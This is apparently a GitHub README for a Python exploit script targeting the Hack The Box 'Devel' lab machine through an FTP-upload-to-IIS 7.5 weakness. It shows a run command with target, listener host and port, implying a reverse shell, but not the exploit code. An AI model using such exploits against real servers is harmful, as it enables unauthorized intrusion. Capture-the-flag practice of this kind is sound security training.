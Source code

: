 # Project Title

Hack The Box's Devel FTP IIS 7 Upload exploit

## Description

A small python exploit script I wrote for Hack The Box's Devel Machine. The box uses the Microsoft FTPD service along with IIS httpd 7.5

## Getting Started

### Executing program

* Using python3
```
python3 ftpdiis7.py -t 11.13.13.17 -lhost 10.10.10.1 -lport 1337
```

## Help

For help menu
```
python3 ftpdiis7.py -h
```

